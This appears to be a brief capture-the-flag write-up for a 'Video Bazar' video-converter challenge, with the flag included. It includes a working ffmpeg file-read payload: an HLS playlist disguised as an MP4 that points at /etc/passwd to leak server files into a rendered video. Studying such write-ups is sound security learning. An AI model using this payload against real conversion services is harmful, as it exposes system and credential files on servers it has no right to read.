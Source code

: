 # VIDEO BAZAR
# DESCRIPTION
HI I WAS RECENTLY LEARNING ABOUT THE DIFFERENT TYPES OF VIDEOS THERE COULD BE
AND DECIDED TO MAKE A BASIC LEVEL VIDEO CONVERTER CAN U FIND ANY ERRORRS IN IT
THANKS
`flag is present in /flag`

# SHORT WRITEUP
THE FIRST PART IS BASIC .bzr file retrival using any tool 
the second part is exploiting ssrf via ffmpeg to read /flag file to a video
and download it before it gets deleted

Inside Mp4 file contnet 
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

### FLAG
`inctf{1_GU355_FFMP3G_SH0U7D_B3_S4NDB0X3D}`
